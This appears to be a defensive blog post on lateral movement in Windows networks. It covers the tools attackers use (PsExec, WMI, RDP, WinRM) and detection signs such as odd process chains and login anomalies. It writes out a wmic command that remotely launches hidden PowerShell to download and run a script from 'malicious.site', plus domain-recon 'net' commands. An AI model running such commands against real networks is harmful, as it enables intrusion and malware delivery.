 ```yaml
---
title: "Lateral Movement"
date: 2025-05-02
tags: ["malware", "strategy", "cybersecurity", "MITRE"]
---
```


Once a hacker has gained access to a system through their path of choice, the next usual step is to try and gain access to other—usually more high-profile machines on the network. This process is known as **lateral movement**, and it can be done in a variety of ways. To be more specific about *why* hackers do this, let’s talk about the advantages of gaining access to other machines.

### Why?

- Gain access to more privileged accounts  
- Reach valuable data (like on a file server)  
- Spread persistence across the network (creating re-entry points or backdoors)  

Having skill in lateral movement is arguably one of the most important things for a hacker. It’s their ability to *move* through the environment once they get in, and it must be done with precision and stealth. It’s also where many attackers get caught, since they can leave plenty of breadcrumbs along the way.

Sometimes they’ll just get into a system and monitor common processes and behaviors for a while. This helps them build a plan for how best to navigate the network undetected. Usually, they’ll use techniques like LotL (Living off the Land)—[which I wrote about here](../living-off-the-land-attack/)—to stay hidden.

### How?

Hackers usually use LOLBins to evade detection. Some of the tools are as follows:

- **PsExec**  
A remote command execution tool in SysInternals. Often used to run or spawn shells on other machines.

- **WMI (`wmic`)**  
Used to query remote systems or start processes across the network.

- **RDP**  
Used to log in like a real user, assuming credentials have been found or stolen.

- **WinRM**  
Remote PowerShell execution used in enterprise environments.

### Detection

Detecting lateral movement is tricky because it uses legitimate, trusted tools and real credentials. However, defenders can look for patterns that suggest something suspicious is happening under the surface.

---

#### 1. Unusual Parent-Child Process Relationships

When a hacker is on a machine, they may be using LOLBins, but the **way** those tools are used can give them away. One way defenders detect this is by looking at **which process started another**—also known as parent-child process relationships.

Let’s say we see this process chain in a system:
```bash
winword.exe → cmd.exe → powershell.exe → wmic.exe
```
- `winword.exe → cmd.exe` implies there was likely a macro embedded in a Word document (probably from a phishing email).
- That macro launches `cmd.exe`, which runs `powershell.exe`.
- PowerShell can then download a payload, and finally `wmic.exe` is used for the **lateral movement**.

Here’s an example command that might be executed via `wmic.exe`:
```bash
wmic /node:"10.0.0.12" process call create "powershell -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```
- `/node:"10.0.0.12"` → Targets another machine on the network.  
- `process call create` → Asks that machine to run a new process.  
- `"powershell -NoP -W Hidden -C IEX(...)"` → Starts a hidden PowerShell instance that:  
  - `-NoP`: No profile (faster, stealthier)  
  - `-W Hidden`: Hides the PowerShell window  
  - `IEX(...)`: Downloads and runs a malicious PowerShell script in memory  

---

#### 2. New or Rare Use of Lateral Tools

Tools like `PsExec`, `wmic`, `winrm`, and PowerShell remoting are normally used by system admins—but only in certain environments and contexts. Defenders might set up alerts for their use in unexpected locations, or flag activity that doesn’t match the usual user behavior. Sudden or anomalous use of these tools is a red flag that lateral movement could be underway.

---

#### 3. Login Anomalies

Things like **multiple login attempts**, **a low-privilege user suddenly logging into many machines**, or **remote logins at odd hours** (e.g., an HR employee remoting in at 3 AM) are classic indicators of lateral movement.

---

#### 4. Suspicious Recon Activity

These commands are often used to **map the network** and **identify valuable targets**:
```bash
net view /domain
net use
net group "Domain Admins" /domain
```
They aren’t commands a normal user would ever run, and they often precede lateral movement.

---